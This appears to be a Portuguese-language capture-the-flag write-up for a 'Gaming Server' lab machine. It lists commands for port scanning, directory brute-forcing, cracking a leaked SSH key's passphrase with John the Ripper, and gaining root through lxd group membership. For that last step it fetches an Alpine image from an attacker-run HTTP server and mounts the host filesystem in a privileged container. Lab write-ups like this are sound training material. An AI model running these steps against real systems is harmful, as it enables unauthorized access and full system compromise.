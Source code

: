 # Gaming Server 

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.115.2
```
![image](https://github.com/lufffe/Writeups/assets/90646635/16c9a231-b3e7-4b5d-b27f-b2e986b9c046)

![image](https://github.com/lufffe/Writeups/assets/90646635/dcd7bb35-025d-452f-b052-dd6ee24968ab)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80 10.10.115.2
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4eac808a-9639-4ea3-b487-c903167f82e4)

* ### Verificando o Http verificamos que aparece um "John".
![image](https://github.com/lufffe/Writeups/assets/90646635/065e8460-d4a8-4dd7-ac64-fef2f56f97ad)

* ### Scan de Arquivos e Diretórios.
```bash
gobuster dir -u http://10.10.115.2 -w directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d8e7747a-c897-4919-86c6-dd64bf7045d1)

* ### Chave Id_Rsa.
![image](https://github.com/lufffe/Writeups/assets/90646635/54168859-3167-4a30-b2b4-717027503095)

* ### Já em Uploads tem esses arquivoc (dict uma wordlist) e o outro um texto.
![image](https://github.com/lufffe/Writeups/assets/90646635/f13e1f80-c7dd-401c-a522-a3d01b07090f)

* ### Primeiro pegamos o hash e depois quebramos essa hash com a wordlist que conseguimos.
```bash
ssh2john secretKey > hash.txt
```
```bash
john hash.txt --wordlist=dict.lst
```
![image](https://github.com/lufffe/Writeups/assets/90646635/09c69cef-01ad-4afb-a4a7-bea75dbeff76)

* ### Dando permissão a chave id_rsa.
```bash
chmod 600 secretKey 
```

* ### Acessando via SSH.
```bash
ssh -i secretKey john@10.10.115.2
```
![image](https://github.com/lufffe/Writeups/assets/90646635/57362ab4-e542-48e0-8c0d-eb577b1d7371)

* ### Flag Usuário.
```bash
cat user.txt
```

* ### Executando o comando id, descobrindo o grupo(lxd).
```bash
id
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ce7dce2f-0cc2-4cea-b380-c36e49fcc2c4)

* ### Depois de um tempo pesquisando encontrei esse repositório do git.
```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
```

* ### Sobe o servidor em Python para transferir o arquivo.
```bash
python -m http.server
```

* ### Transfere para a maquina.
```bash
wget http:/IP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

* ### Executa esses comandos.
* lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
* lxc init myimage ignite -c security.privileged=true
* lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
* lxc start ignite
* lxc exec ignite /bin/sh

![image](https://github.com/lufffe/Writeups/assets/90646635/3f19636f-434d-48e7-885a-cec30c3765ea)

* ### Flag Root.
```bash
cat /mnt/root/root/root.txt
```
